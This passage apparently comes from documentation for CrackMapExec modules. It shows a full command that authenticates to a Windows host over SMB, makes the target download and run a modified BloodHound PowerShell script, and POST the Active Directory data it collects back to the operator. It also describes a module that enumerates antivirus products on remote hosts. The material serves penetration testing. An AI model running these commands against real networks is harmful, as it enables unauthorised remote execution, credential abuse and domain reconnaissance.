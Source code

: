 CSV output files are saved to /root/.cmx/logs/
```
~# ls -l /root/.cmx/logs/
-rw-r--r-- 1 root root      40 Nov 28 12:00 group_membership.csv-192.168.1.121-2018-11-28_120010.csv
-rw-r--r-- 1 root root      43 Nov 28 12:00 local_admins.csv-192.168.1.121-2018-11-28_120010.csv
-rw-r--r-- 1 root root      72 Nov 28 12:00 trusts.csv-192.168.1.121-2018-11-28_120010.csv
-rw-r--r-- 1 root root      35 Nov 28 12:00 user_sessions-192.168.1.121-2018-11-28_120010.csv
```

**Example usage w/direct connection to neo4j:**

**Note:** 
    To use this you need to edit the default neo4j config at /usr/share/neo4j/conf/neo4j.config  
    Jump down to the "Network connector configuration"  
    Edit or just uncomment the line (to listen on all interfaces)  
        dbms.connectors.default_listen_address=0.0.0.0    
The neo4juri parameter will then be the ip address of the box running neo4j, port 7474 by default  

```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M bloodhound -o NEO4JURI='bolt://10.10.33.200:7687' NEO4JUSER=neo4j NEO4JPASS=neo4j2 COLLECTIONMETHOD=Default
```
**Expected Results:**
```
SMB         192.168.1.121    445    DESKTOP1         [*] Windows 7 Ultimate N 7601 Service Pack 1 x64 (name:DESKTOP1) (domain:PACIFIC) (signing:False) (SMBv1:True)
SMB         192.168.1.121    445    DESKTOP1         [+] PACIFIC\tcat:User!23 (Pwn3d!)
BLOODHOU... 192.168.1.121    445    DESKTOP1         [+] Executed launcher
BLOODHOU...                                         [*] Waiting on 1 host(s)
BLOODHOU... 192.168.1.121                            [*] - - "GET /BloodHound-modified.ps1 HTTP/1.1" 200 -
BLOODHOU... 192.168.1.121                            [+] Executing payload... this can take a few minutes...
BLOODHOU... 192.168.1.121                            [*] - - "POST / HTTP/1.1" 200 -
BLOODHOU... 192.168.1.121                            [+] Successfully retreived data
```
Then just fire up bloodhound and refresh the DB

--------------------------------------------------------------------------------------------------------------------------------------------------------
## empire_exec   
### the api has been dropped in empire, this is no longer supported.


--------------------------------------------------------------------------------------------------------------------------------------------------------
## enum_avproducts           
Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI

**Options:**
None
